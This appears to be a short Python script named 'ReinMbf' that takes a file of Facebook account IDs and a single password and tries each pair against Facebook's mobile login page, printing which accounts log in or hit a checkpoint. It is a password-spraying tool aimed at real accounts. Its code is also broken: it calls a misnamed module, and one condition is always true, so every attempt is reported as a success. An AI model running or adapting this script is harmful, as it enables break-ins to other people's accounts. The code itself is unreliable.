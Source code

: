# ReinMbf

import requests
 
def login(id,pw):
      data = {'email':id,'pass':pw}
      r = request.post('https://mbasic.facebook.com/login',data=data)
      if 'm_ses' in r.url or 'save-device':
            print(f'{id} > login succes')
      elif 'check pont' in r.url:
            print(f'{id} > akun checkpoint')
      else:
            print(f'{id} > login gagal')
            
            
def lis(filenya,pw):
      f = open(filenya,'r').readlines()
      for i in f:
          login(i.strip(),pw)
          
      
     
if __name__=='__main__':
      f = input('worldlist: ' )
      pw = input('password: ')
      lis(f,pw)
